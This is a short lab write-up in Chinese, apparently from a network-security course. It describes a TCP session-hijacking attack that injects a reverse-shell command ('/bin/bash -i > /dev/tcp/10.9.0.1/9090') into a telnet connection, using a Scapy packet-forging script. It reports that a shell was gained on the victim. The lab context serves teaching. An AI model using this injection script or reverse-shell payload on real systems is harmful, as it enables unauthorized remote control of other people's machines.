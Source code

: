 要使Reverse Shell运行在victim主机10.9.0.5上。可以利用task3中的hijacking方法，首先利用主机10.9.0.6 telnet 10.9.0.5，然后构造包使得victim运行Reverse Shell。

10.9.0.6 telnet 10.9.0.5：

![image-20220511210815553](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511210815553.png)

wireshark抓包：

![image-20220511210749618](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511210749618.png)

构造代码，data为reverse shell：` /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1`。

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=43006, dport=23, flags="A", seq=2591063038, ack=4106536643)
data = " /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

运行代码：

![image-20220511211411653](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511211411653.png)

![image-20220511211639158](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511211639158.png)

攻击成功，成功执行reverse shell，获得victim的权限：

![image-20220511211738698](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511211738698.png)
